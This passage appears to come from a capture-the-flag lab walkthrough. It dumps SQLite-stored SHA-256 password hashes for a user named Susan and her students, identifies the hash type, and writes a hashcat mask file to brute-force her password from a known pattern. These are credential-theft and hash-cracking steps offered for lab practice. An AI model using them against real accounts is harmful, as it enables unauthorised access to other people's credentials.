 The `sqlite` database from `migration` folder contains password hashes for `susan` and her students

```bash
susan@perfection:~/Migration$ sqlite3 ./pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .headers on
sqlite> .mode columns
sqlite> .tables
users
sqlite> select * from users;
id  name            password
--  --------------  ----------------------------------------------------------------
1   Susan Miller    abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2   Tina Smith      dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3   Harry Tyler     d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4   David Lawrence  ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5   Stephen Locke   154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

### Crack susan's password hash

The hash format is `sha-256`

```bash
nth --no-banner -f loot/susan.hash
```

![](/assets/obsidian/1291f22822cac47963fc47e081e0e26a.png)

The password pattern for `Susan` will be `susan_nasus_{randomly generated integer between 1 and 1,000,000,000}`

Use **hashcat** with mask to brute force it

> `pass.hcmask`

```
susan_nasus_?d?d?d?d?d?d?d?d?d
susan_nasus_?d?d?d?d?d?d?d?d
susan_nasus_?d?d?d?d?d?d?d
susan_nasus_?d?d?d?d?d?d
susan_nasus_?d?d?d?d?d
susan_nasus_?d?d?d?d
susan_nasus_?d?d?d
susan_nasus_?d?d
susan_nasus_?d
```
